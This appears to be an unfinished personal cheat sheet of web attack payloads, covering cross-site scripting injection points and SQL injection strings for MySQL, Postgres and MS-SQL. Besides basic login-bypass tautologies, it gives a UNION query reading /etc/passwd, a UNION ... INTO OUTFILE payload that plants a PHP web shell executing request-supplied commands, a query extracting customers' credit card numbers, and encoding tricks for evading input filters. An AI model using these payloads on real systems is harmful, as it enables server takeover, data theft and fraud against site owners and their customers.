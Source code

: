 # XSS

Places on a page where you can put JS:

```html
<script>alert('xss')</script>

<img src="#" onerror="alert('xss')"/>

<input type="button" onclick="alert('xss')"/>

<iframe src="javascript:alert('xss');"></iframe>
```

# SQLi

* ANSI SQL Standard
    * Uses double quotes for table and column names. single quotes for string values
* MySQL
    * Uses backticks for table and column names. Single or double quotes for string values
    * Can be forced to use ANSI standard via `SET GLOBAL SQL_MODE=ANSI_QUOTES`
* Postgres
    * Uses double quotes for table and column names. single quotes for string values  (follows ANSI standard)
* MS-SQL
    * ???
    * Also allows square brackets for identifier quoting
    * Can be forced to use ANSI standard via `SET QUOTED_IDENTIFIER ON`

Characters with special meanings to SQL

* '
    * the usual boundary between code and data in a SQL query
* *
* |
* ||
* ,
* space
* .

Good SQLi strings:

```
# if you think the column is a string
" OR "1"="1
' OR '1'='1

# if the column is a string which can only be alphabetic
" OR "a"="a
' OR 'a'='a

# if the column is numeric
1 or 1=1


# mysql specific
1 UNION ALL SELECT LOAD_FILE('/etc/passwd')--

# mysql and php specific
1 UNION SELECT "<? system($_REQUEST[‘cmd’]); ?>" INTO OUTFILE "/var/www/html/victim.com/cmd.php" --
```

Rough notes


```
# looks like an email (note no spaces required around OR)
x@'OR'1'='1


input.codepoints.map {|x|  '\u' + format('%04X', x) }.join


Mary Martin' UNION SELECT creditcardnumber FROM customers WHERE customername = 'Mary Martin
```

* remember your `OR X=Y` that the type of X and Y literals need to be valid for the column type being checked
* use GROUP BY to guess the column name e.g. `' group by name having '1'='1`
    * if the column doesn't exist you will get an error about it not existing

Encodings that DBs will honor which can be used to avoid param whitelisting

* URI (percent) encoding
    * `URI.escape(input)`
    * used in preparation of `application/x-www-form-urlencoded` data
* URI (percent) encoding but encoding characters which are not required to be encoded by the spec
    * `URI.escape(input, "'?") # 2nd arg is chars to replace with percent encoded versions`

TODO finish this
